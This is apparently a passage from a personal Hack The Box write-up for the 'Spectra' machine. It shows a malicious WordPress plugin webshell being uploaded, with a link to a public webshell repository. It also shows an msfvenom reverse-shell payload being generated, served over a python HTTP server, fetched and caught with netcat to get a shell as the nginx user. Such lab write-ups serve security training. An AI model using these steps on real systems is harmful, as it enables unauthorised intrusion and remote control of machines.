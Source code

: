 ![Pasted image 20210508234537.png](../../zzz_res/attachments/Pasted_image_20210508234537.png)

Obtained high privileges over the wordpress installation allowed to upload a malicious plugin and get command execution on the box.

[WebShell/WordPress Shell.php at master · xl7dev/WebShell](https://github.com/xl7dev/WebShell/blob/master/Php/WordPress%20Shell.php)

Uploaded the webshell plugin (zipped php):

![Pasted image 20210509000355.png](../../zzz_res/attachments/Pasted_image_20210509000355.png)

Code execution obtained in the context of the `nginx` user:

![Pasted image 20210509001300.png](../../zzz_res/attachments/Pasted_image_20210509001300.png)

![Pasted image 20210509001940.png](../../zzz_res/attachments/Pasted_image_20210509001940.png)

From there, a reverse shell was generated and hosted using msfvenom and http.server python module :

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f elf -o rs.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rs.elf

┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.229 - - [08/May/2021 18:16:41] "GET /rs.elf HTTP/1.1" 200 -
```

Then the reverse shell was downloaded and executed in order to get an interactive persistent shell:

![Pasted image 20210509001927.png](../../zzz_res/attachments/Pasted_image_20210509001927.png)

![Pasted image 20210509002203.png](../../zzz_res/attachments/Pasted_image_20210509002203.png)

![Pasted image 20210509002224.png](../../zzz_res/attachments/Pasted_image_20210509002224.png)

![Pasted image 20210509002243.png](../../zzz_res/attachments/Pasted_image_20210509002243.png)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.229] 44138
id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```
